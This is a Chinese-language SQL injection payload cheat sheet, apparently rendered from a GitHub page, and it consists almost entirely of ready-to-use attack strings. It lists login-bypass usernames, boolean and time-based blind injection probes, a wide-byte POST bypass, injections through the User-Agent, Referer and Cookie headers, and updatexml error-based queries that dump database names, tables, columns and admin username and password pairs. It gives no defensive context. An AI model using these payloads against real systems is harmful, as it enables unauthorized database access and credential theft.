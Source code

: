 > 常用的万能username语句：
>  a ’ or 1=1 #
>  a ") or 1=1 #
>  a‘) or 1=1 #
>  a” or “1”=”1
>  ' or '1'='1
>  ' or (length(database())) = 8  (用于输入’ “都没有错误)
>  ' or (ascii(substr((select database()) ,1,1))) = 115 # (用于输入’ “都没有错误)
>  ") or ("1")=("1
>  ") or 1=1 or if(1=1, sleep(1), null)  #
>  ") or (length(database())) = 8 #
>  ") or (ascii(substr((select database()) ,1,1))) = 115  or if(1=1, sleep(1), null)  #

# post型盲注通杀payload：

> uname=admin%df'or()or%200%23&passwd=&submit=Submit.
>
> 万能密码 �'or1=1#

# 关于UPDATEXML,REFERER,COOKIE的构造

> User-Agent:.........`' or updatexml(1,concat(0x7e,database(),0x7e),1),”,”) #`
>  Referer: `’ or updatexml(1,concat(0x7e,database(),0x7e),1),”,”) #`
>  Cookie:username: admin ’ or updatexml(1,concat(0x7e,database(),0x7e),1) #

#### updatexml报错注入

> 爆数据库版本信息：`?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)`
>  链接用户：`?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)`
>  链接数据库：`?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)`
>  爆库：`?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM admin limit 0,1),0x7e),1)`
>  爆表：`?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM admin limit 0,1),0x7e),1)`
>  爆字段：`?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM admin limit 0,1),0x7e),1)`
>  爆字段内容：`?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM admin limit 0,1),0x7e),1)`

